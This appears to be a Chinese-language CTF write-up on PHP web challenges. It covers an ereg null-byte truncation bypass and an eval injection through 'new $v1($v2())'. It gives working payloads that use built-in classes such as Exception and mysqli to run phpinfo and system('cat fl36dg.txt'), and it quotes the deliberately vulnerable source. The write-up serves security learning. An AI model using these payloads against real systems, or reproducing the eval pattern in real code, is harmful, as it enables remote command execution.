 也就是说所有值都要符合需要匹配的值才能返回true

所以直接包含数字显然不太可能

<font color='geen'>但是ereg存在%00截断漏洞</font>

所以可以用`?c=a%00778`来得到flag

+++

### <font color='orange'>web109-110</font>

#### 109

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/[a-zA-Z]+/', $v1) && preg_match('/[a-zA-Z]+/', $v2)){
            eval("echo new $v1($v2());");
    }

}
?>
```

本题的考点为**Exception 异常处理类**

前面一个**自带的类**(不知道是不是所有自带的类，记住几个就好了吧)里面输入函数命令在**eval**里面会被执行
也就是说，本题输入

```php
?v1=mysqli&v2=phpinfo
or
?v1=Exception&v2=phpinfo
or
?v1=ReflectionClass&v2=phpinfo
or
?v1=ReflectionMethod&v2=phpinfo
```

都可执行出`phpinfo();`
那么就可通过此方法执行**system**方法

`v1=mysqli&v2=system('ls')
?v1=mysql&v2=system('cat fl36dg.txt')`

就可获取flag

***Tips***

在学习本题的过程中得到了许多有趣的知识

- echo在网页中存在**xss**漏洞
